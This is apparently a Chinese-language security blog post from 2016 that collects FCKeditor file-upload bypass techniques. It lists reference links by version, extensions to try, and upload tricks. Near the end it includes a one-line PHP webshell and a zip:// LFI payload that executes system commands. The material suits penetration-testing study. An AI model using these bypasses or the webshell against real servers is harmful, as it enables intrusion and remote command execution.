 ```yaml
---
layout:     post
title:      fckeditor各版本绕过
date:       2016-08-12
summary:    fckeditor各版本绕过
categories: web
tags:
 - fckeditor
 - web
 - upload
---
```


### 0x00 fckeditor上传漏洞总结

    http://sec.chinabyte.com/206/13708206.shtml
    http://www.cnbraid.com/2015/07/09/fckeditor/
    http://www.it610.com/article/1842939.htm
    http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf <=2.6.4

### 0x01 asp

    <=2.6.4
        http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf
    2.6.6
        http://www.hack80.com/thread-320-1-1.html
        http://www.qhwins.com/ShowNews/?11-20109214030542523.html
    2.6.8
        http://www.freebuf.com/vuls/6408.html

### 0x02 php

    <=2.6.4
        http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf

### 0x03 fckeditor经典尝试后缀

    1>将后缀改成.php.pjpg
    2>将后缀改成.html
    3>将后缀改成.lnk

### 0x04 其它上传技巧

    1>上传时,延迟一下再上传,有时能bypass admin,用到firefox tamper插件
        https://www.youtube.com/watch?v=ndeYnMoFPx8
        管理员登录绕过
            https://www.youtube.com/watch?v=UO-vzWFctTA
            https://www.youtube.com/watch?v=a5fm629s8Ao
                firefox noredirect插件
    2>双文件上传
    3>上传以图片后缀名为后缀的压缩文件,文件实际是一个webshell.php文件的压缩文件(zip),利用lfi漏洞并将lfi要包含
      的文件的参数赋值为:
        zip://archive.zip#webshell.php
        或
        zip://archive.zip#webshell.php&param1=system&param2=ls   ===>这里对应webshell.php为:
            <?php $_GET['param1']($_GET['param2']);?>
      这里适用的情况为:
        a>可上传任意内容文件(通过修改Content-Type等达到目的),但文件会被重命令为以png为后缀文件
        b>找到了lfi漏洞,但是lfi漏洞不能包函.|./|..|..\|...等情况
      更多细节:
        https://www.securusglobal.com/community/2016/08/19/abusing-php-wrappers/

